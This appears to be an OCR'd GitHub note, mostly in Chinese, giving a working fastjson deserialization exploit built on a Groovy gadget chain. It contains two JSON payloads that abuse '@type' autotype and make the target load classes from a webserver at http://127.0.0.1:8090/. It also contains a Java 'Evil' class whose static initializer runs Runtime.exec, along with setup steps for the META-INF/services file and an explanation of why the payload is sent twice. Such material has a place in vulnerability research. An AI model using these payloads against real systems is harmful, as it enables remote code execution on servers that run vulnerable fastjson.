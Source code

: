 # gadgets
## groovy
```json
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}

{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
     "@type":"org.codehaus.groovy.control.CompilerConfiguration",
     "classpathList":"http://127.0.0.1:8090/"
    }
}
```

poc需要分两次发送；

在webserver下创建META-INF/services/org.codehaus.groovy.transform.ASTTransformation文件和Evil.class,META-INF/services/org.codehaus.groovy.transform.ASTTransformation的内容为Evil.  Evil.class的内容如下,注意Evil.class中的@GroovyASTTransformation注解:

```java
import org.codehaus.groovy.ast.ASTNode;
import org.codehaus.groovy.control.SourceUnit;
import org.codehaus.groovy.transform.ASTTransformation;
import org.codehaus.groovy.transform.GroovyASTTransformation;
import java.io.IOException;

@GroovyASTTransformation
public class groovyEvilPoc implements ASTTransformation {
    public void visit(ASTNode[] astNodes, SourceUnit sourceUnit) {
    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {

        }
    }
}
```
有两个问题需要注意：

1.  两者无法合并成一个poc，原因是在创建CompilationFailedException的实例之后为unit属性赋值时没有setUnit方法，直接抛出异常，json解析终止，后半部分的json不会被解析；（有没有其他方式可以 catch异常再继续解析的？答案参考后面）
2. 发送两次payload不会影响deserializer中的缓存信息，因为ParserConfig对象时static的，第一次解析抛异常之后CompilationFailedException的deserialzer依然会被放入deserializers中，第二次可以正常获取；
